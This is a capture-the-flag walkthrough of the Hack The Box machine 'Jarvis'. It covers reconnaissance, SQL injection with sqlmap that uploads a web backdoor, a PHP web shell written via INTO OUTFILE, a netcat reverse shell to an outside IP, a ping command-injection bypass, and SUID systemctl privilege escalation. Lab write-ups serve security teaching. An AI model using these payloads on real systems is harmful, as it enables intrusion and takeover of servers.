





# Jarvis

## Machine Info


## Recon

- nmap

```console
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Stark Hotel
|_http-server-header: Apache/2.4.25 (Debian)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
64999/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.25 (Debian)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (96%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Linux 3.13 (94%), Linux 3.16 (94%), Linux 4.4 (94%), Android 4.0 (94%), Linux 3.12 (93%), Linux 3.18 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- path recon

```console
$ dirsearch -u http://jarvis.htb/
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/qwe/pwk/Linux/Jarvis/reports/http_jarvis.htb/__23-12-28_12-26-42.txt

Target: http://jarvis.htb/

[12:26:42] Starting:
[12:26:47] 301 -  305B  - /js  ->  http://jarvis.htb/js/
[12:28:16] 301 -  306B  - /css  ->  http://jarvis.htb/css/
[12:28:31] 301 -  308B  - /fonts  ->  http://jarvis.htb/fonts/
[12:28:31] 200 -  755B  - /footer.php
[12:28:40] 301 -  309B  - /images  ->  http://jarvis.htb/images/
[12:28:40] 200 -  816B  - /images/
[12:28:46] 200 -  677B  - /js/
[12:29:12] 301 -  313B  - /phpmyadmin  ->  http://jarvis.htb/phpmyadmin/
[12:29:15] 200 -   4KB  - /phpmyadmin/
[12:29:15] 200 -   3KB  - /phpmyadmin/doc/html/index.html
[12:29:15] 200 -   1KB  - /phpmyadmin/README
[12:29:15] 200 -   4KB  - /phpmyadmin/index.php
[12:29:16] 200 -  19KB  - /phpmyadmin/ChangeLog
[12:29:29] 403 -  275B  - /server-status/
[12:29:29] 403 -  275B  - /server-status

Task Completed
```

## Foothold

### SQLi

- **POC**


- detect column number
  - `http://jarvis.htb/room.php?cod=1 order by 7`: normal output
  - `http://jarvis.htb/room.php?cod=1 order by 8`: abnormal output -> column number = 7


- **EXP**: sqlmap
  - `$ sqlmap -u http://jarvis.htb/room.php?cod=1 --batch --level 4`
  - `$ sqlmap -u http://jarvis.htb/room.php?cod=1 --batch --level 4 --os-shell`



```console
$ sqlmap -u http://jarvis.htb/room.php?cod=1 --batch --level 4 --os-shell
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.7.10#stable}
|_ -| . ["]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:50:10 /2023-12-28/

[12:50:10] [INFO] resuming back-end DBMS 'mysql'
[12:50:10] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=5dm7vli7va9...sn91kr89b5'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cod (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cod=1 AND 7286=7286

    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (SLEEP)
    Payload: cod=1 OR SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: cod=-8059 UNION ALL SELECT NULL,CONCAT(0x7170627671,0x774d52427a6b72505071716461444b4c624f4970684846596f78495858464a63744c694c64706b79,0x7170787171),NULL,NULL,NULL,NULL,NULL-- -
---
[12:50:14] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9 (stretch)
web application technology: Apache 2.4.25, PHP
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[12:50:14] [INFO] going to use a web backdoor for command prompt
[12:50:14] [INFO] fingerprinting the back-end DBMS operating system
[12:50:15] [INFO] the back-end DBMS operating system is Linux
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 4
[12:50:15] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs, /usr/local/var/www') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 1
[12:50:15] [INFO] retrieved web server absolute paths: '/images/'
[12:50:15] [INFO] trying to upload the file stager on '/var/www/' via LIMIT 'LINES TERMINATED BY' method
[12:50:17] [WARNING] unable to upload the file stager on '/var/www/'
[12:50:17] [INFO] trying to upload the file stager on '/var/www/' via UNION method
[12:50:18] [WARNING] expect junk characters inside the file as a leftover from UNION query
[12:50:19] [WARNING] it looks like the file has not been written (usually occurs if the DBMS process user has no write privileges in the destination path)
[12:50:20] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
[12:50:23] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://jarvis.htb:80/tmpuoezp.php
[12:50:25] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://jarvis.htb:80/tmpbtnbe.php
[12:50:25] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> id
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output: 'uid=33(www-data) gid=33(www-data) groups=33(www-data)'
os-shell> uname -a
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output: 'Linux jarvis 4.9.0-19-amd64 #1 SMP Debian 4.9.320-2 (2022-06-30) x86_64 GNU/Linux'
os-shell> ip a
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output:
---
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:e8:e2 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.143/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:e8e2/64 scope link
       valid_lft forever preferred_lft forever
---
os-shell> nc 10.10.14.39 1234 -e /bin/bash
```

- **manual get shell**
  - `-1 UNION SELECT 1, @@version, user(), system_user(), (SELECT GROUP_CONCAT(concat_ws(':', variable_name, variable_value) SEPARATOR '; ') FROM information_schema.global_variables WHERE variable_name LIKE '%secure%'), 6, 7`
    - When the value of `secure_file_priv` is not set, it means there are no restrictions on the import or export operations for `mysqld`.
  - `-1 UNION SELECT 1,2,3,4,5,6,'<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php'`
    - `<?php system($_GET["cmd"]); ?>` can be hex format
    - `0x3c3f7068702073797374656d28245f4745545b22636d64225d293b203f3e`





## Privilege Escalation

### www-data -> pepper

- `sudo -l` -> -p for ping command usage -> **command injection**

```console
www-data@jarvis:/var/www/html/phpmyadmin$ sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py

www-data@jarvis:/var/www/html/phpmyadmin$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -h
sudo -u pepper /var/www/Admin-Utilities/simpler.py -h
***********************************************
     _                 _
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/
                                @ironhackers.es

***********************************************


********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP -> guess ping $ip -c 3 -> command injection
```

```python
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

- `ping $(/bin/bash)` + `nc <ip> <port> -e /bin/bash`



### pepper -> root

- enum **SUID** files -> **systemctl**

```console
pepper@jarvis:~$ find / -perm -u=s -type f 2>/dev/null
/bin/fusermount
/bin/mount
/bin/ping
/bin/systemctl
/bin/umount
/bin/su
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/chfn
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

- [Linux Privilege Escalation: systemctl (Misconfigured Permissions — sudo/suid) (github.com)](https://gist.github.com/zhsh9/92aa38ca3d1b76aa4529e5690acbd706)



## Exploit Chain

port+path recon -> sqli with sqlmap -> www-data shell -> sudo -l -> command injection -> suid systemctl -> root shell

